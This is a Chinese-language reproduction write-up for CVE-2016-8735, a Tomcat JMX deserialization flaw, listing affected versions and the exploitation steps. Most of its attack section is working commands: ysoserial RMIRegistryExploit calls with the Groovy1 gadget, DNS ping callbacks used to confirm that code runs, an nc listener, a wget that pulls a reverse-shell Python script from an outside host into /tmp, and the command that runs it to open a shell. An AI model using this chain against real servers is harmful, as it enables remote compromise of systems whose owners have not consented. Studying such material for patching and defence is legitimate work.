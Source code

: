 （CVE-2016-8735）Tomcat 反序列化漏洞
====================================

一、漏洞简介
------------

该漏洞与之前Oracle发布的mxRemoteLifecycleListener反序列化漏洞（CVE-2016-3427）相关，是由于使用了JmxRemoteLifecycleListener的监听功能所导致。而在Oracle官方发布修复后，Tomcat未能及时修复更新而导致的远程代码执行。
该漏洞所造成的最根本原因是Tomcat在配置JMX做监控时使用了JmxRemoteLifecycleListener的方法。

二、漏洞影响
------------

ApacheTomcat 9.0.0.M1 到9.0.0.M11 ApacheTomcat 8.5.0 到8.5.6
ApacheTomcat 8.0.0.RC1 到8.0.38 ApacheTomcat 7.0.0 到7.0.72 ApacheTomcat
6.0.0 到6.0.47

三、复现过程
------------

### 漏洞利用条件：

外部需要开启JmxRemoteLifecycleListener监听的10001和10002端口，来实现远程代码执行。

### 构造命令

Win ping一次命令：

    ping -n 1 qjkpla.ceye.io

Linux ping 一次命令：

    ping -c 1 qjkpla.ceye.io

利用Ceye回显看是否存在漏洞:

    java -cp ysoserial-0.0.4-all.jar ysoserial.exploit.RMIRegistryExploit 漏洞IP 端口 Groovy1 "ping -c Groovy1.test.qjkpla.ceye.io"

![](resource/(CVE-2016-8735)Tomcat反序列化漏洞/media/rId26.png)

DNS回显能返回数据，说明执行了Ping命令，也就是说漏洞存在

![](resource/(CVE-2016-8735)Tomcat反序列化漏洞/media/rId27.png)

直接NC监听服务：

    nc -l -vv 12555

![](resource/(CVE-2016-8735)Tomcat反序列化漏洞/media/rId28.png)

然后构造命令：下载我们的反弹脚本:(之前用bash命令反弹没有成功所以使用Python脚本进行反弹)

    java -cp ysoserial-0.0.4-all.jar ysoserial.exploit.RMIRegistryExploit 漏洞IP 端口 Groovy1 "wget http://rinige.com/back.py -O /tmp/x.py"

执行完此命令继续构造命令，去执行刚在wget的脚本

    java -cp ysoserial-0.0.4-all.jar ysoserial.exploit.RMIRegistryExploit 漏洞IP 端口Groovy1 "python /tmp/x.py 反弹主机地址 反弹端口"

![](resource/(CVE-2016-8735)Tomcat反序列化漏洞/media/rId29.png)

成功反弹：

![](resource/(CVE-2016-8735)Tomcat反序列化漏洞/media/rId30.png)

image
